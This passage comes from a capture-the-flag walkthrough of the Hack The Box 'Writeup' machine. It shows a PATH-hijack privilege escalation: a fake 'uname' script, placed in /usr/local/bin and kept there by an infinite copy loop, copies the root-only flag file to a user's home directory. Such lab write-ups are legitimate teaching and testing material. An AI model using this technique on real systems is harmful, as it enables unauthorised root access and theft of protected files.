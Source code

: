 ```console
root@endeavour:~# which uname
/usr/bin/uname
```
Setting up the same technique as before:
```console
jkr@writeup:~/tmp$ touch uname
jkr@writeup:~/tmp$ vi uname
jkr@writeup:~/tmp$ cat uname
#!/bin/bash
cat /root/root.txt > /home/jkr/root.txt
jkr@writeup:~/tmp$ chmod +x uname
jkr@writeup:~/tmp$ cp uname /usr/local/bin
```
I log into the box as jkr once more, and nothing:

```conosle
jkr@writeup:~$ ls
tmp  user.txt
```
I decided to check to make sure my file was even still there:

```console
jkr@writeup:~$ ls -al /usr/local/bin/uname
ls: cannot access '/usr/local/bin/uname': No such file or directory
```
The heck, it’s not even there. It must have been deleted somehow. I was sure that I put it there, and the box wasn’t reset at all during the 15 seconds or so between waiting it was deleted somehow. At this point, rather discouraged I made a bash one liner - an infinite loop copying the replacement uname into /usr/local/bin:

```console
while true; do cp /home/jkr/tmp/uname /usr/local/bin/uname; done
```
Log into the box one more time:

```console
root@endeavour:~/htb/writeup# ssh jkr@10.10.10.138
jkr@10.10.10.138's password: 
Linux writeup 4.9.0-8-amd64 x86_64 GNU/Linux

The programs included with the Devuan GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Oct  2 11:56:40 2019 from 10.10.14.75
```
and boom:

```console
jkr@writeup:~$ ls
root.txt  tmp  user.txt
jkr@writeup:~$ cat root.txt 
eeba47*******************d7226
```
We've got the root flag!
